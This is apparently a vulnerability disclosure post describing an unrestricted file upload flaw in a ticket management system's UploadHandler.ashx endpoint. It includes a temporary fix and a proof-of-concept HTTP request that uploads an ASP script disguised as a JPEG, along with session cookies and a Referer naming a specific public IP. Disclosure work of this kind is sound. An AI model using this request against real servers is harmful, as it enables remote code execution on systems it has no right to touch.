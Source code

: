 ```yaml
---
title: "Ticket Management System Standard Version - File Upload Vulnerability"
date: 2024-08-12 11:18:23 +0800
category: 代码审计
tags: [Program,代码审计]
excerpt: Ticket Management System Standard Version - File Upload Vulnerability
---
```

- Vulnerability Name: Ticket Management System Standard Version - File Upload Vulnerability

- Vulnerabilities URL:/WiChat/ashx/UploadHandler. ashx

- Vulnerability description: UploadHandler does not filter uploaded files in any way

- Temporary solution: Set the permission to disable script running on the folder UploadImage



- Vulnerability related code

![image-20240812124039627](imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124039627.png)

- Method for reproducing vulnerabilities

![image-20240812124118510](imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124118510.png)

- visit url/UploadImage/1.asp

![image-20240812124205940](imgs/2024-08-12-票务管理系统标准版-文件上传漏洞/image-20240812124205940.png)

- POC

```
GET /WeChat/ashx/UploadHandler.ashx HTTP/2
Host: host
Cookie: ASP.NET_SessionId=uuigwbm4v4b30ykuja5c2xsn; SESSIONID=VAEAADILWiMFEnkxjy0Io/Rwsst9uE3mxlZfIc8i6UI=&VAEAAPWddZzuRvJK3ALg8A==&HUAWEI &langfrombrows=zh-CN,&copyright=2014-2022; ASPSESSIONIDSGDRADAS=DPFDAIDBPACHPBHNFJOHLILC
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://117.145.188.82:8010/WeChat/ashx/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Length: 7483

------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.asp"
Content-Type: image/jpeg

<% 
    Response.Write "Hello, World!"
%>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```

